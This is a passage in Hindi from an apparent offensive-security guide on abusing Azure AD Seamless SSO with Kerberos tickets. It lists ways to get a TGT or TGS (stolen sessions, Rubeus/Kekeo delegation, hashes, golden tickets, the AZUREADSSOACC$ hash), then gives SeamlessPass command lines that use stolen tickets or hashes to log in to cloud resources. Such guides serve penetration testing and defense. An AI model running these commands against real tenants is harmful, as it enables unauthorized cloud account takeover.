 > [!WARNING]
> इस हमले के बारे में जानने वाली मुख्य बात यह है कि केवल TGT या किसी उपयोगकर्ता का एक विशिष्ट TGS जो Entra ID के साथ समन्वयित है, क्लाउड संसाधनों तक पहुँचने के लिए पर्याप्त है।\
> इसका कारण यह है कि यह एक टिकट है जो उपयोगकर्ता को क्लाउड में लॉगिन करने की अनुमति देता है।

TGS टिकट प्राप्त करने के लिए, हमलावर को निम्नलिखित में से एक होना चाहिए:
- **एक समझौता किए गए उपयोगकर्ता का TGS:** यदि आप `HTTP/autologon.microsoftazuread-sso.com` के लिए टिकट के साथ उपयोगकर्ता के सत्र को मेमोरी में समझौता करते हैं, तो आप इसका उपयोग क्लाउड संसाधनों तक पहुँचने के लिए कर सकते हैं।
- **एक समझौता किए गए उपयोगकर्ता का TGT:** भले ही आपके पास एक न हो लेकिन उपयोगकर्ता समझौता किया गया था, आप कई उपकरणों में लागू किए गए नकली TGT प्रतिनिधित्व चाल का उपयोग करके एक प्राप्त कर सकते हैं जैसे [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) और [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9)।
- **एक समझौता किए गए उपयोगकर्ता का हैश या पासवर्ड:** SeamlessPass इस जानकारी के साथ डोमेन नियंत्रक के साथ संवाद करेगा ताकि TGT और फिर TGS उत्पन्न किया जा सके।
- **एक गोल्डन टिकट:** यदि आपके पास KRBTGT कुंजी है, तो आप उस उपयोगकर्ता के लिए आवश्यक TGT बना सकते हैं जिसे आप हमला कर रहे हैं।
- **AZUREADSSOACC$ खाता हैश या पासवर्ड:** इस जानकारी और उपयोगकर्ता के सुरक्षा पहचानकर्ता (SID) के साथ हमला करना संभव है कि एक सेवा टिकट बनाया जाए और क्लाउड के साथ प्रमाणित किया जाए (जैसा कि पिछले तरीके में किया गया था)।

### [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass)

जैसा कि [इस ब्लॉग पोस्ट में समझाया गया है](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/), पिछले आवश्यकताओं में से कोई भी होने पर, समझौता किए गए उपयोगकर्ता के रूप में या यदि आपके पास **`AZUREADSSOACC$`** खाता हैश या पासवर्ड है, तो क्लाउड संसाधनों तक पहुँचने के लिए उपकरण **SeamlessPass** का उपयोग करना बहुत आसान है।

अंत में, TGT के साथ, उपकरण [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) का उपयोग करना संभव है:
```bash
# Using the TGT to access the cloud
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_encoded_TGT>
# Using the TGS to access the cloud
seamlesspass -tenant corp.com -tgs user_tgs.ccache
# Using the victims account hash or password to access the cloud
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -username user -ntlm DEADBEEFDEADBEEFDEADBEEFDEADBEEF
seamlesspass -tenant corp.com -domain corp.local -dc 10.0.1.2 -username user -password password
# Using the AZUREADSSOACC$ account hash (ntlm or aes) to access the cloud with a specific user SID and domain SID
seamlesspass -tenant corp.com -adssoacc-ntlm DEADBEEFDEADBEEFDEADBEEFDEADBEEF -user-sid S-1-5-21-1234567890-1234567890-1234567890-1234
seamlesspass -tenant corp.com -adssoacc-aes DEADBEEFDEADBEEFDEADBEEFDEADBEEF -domain-sid S-1-5-21-1234567890-1234567890-1234567890 -user-rid 1234
wmic useraccount get name,sid # Get the user SIDs
```
Firefox को seamless SSO के साथ काम करने के लिए और जानकारी [**इस ब्लॉग पोस्ट में**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/) मिल सकती है। 

### AZUREADSSOACC$ खाते के हैश प्राप्त करना
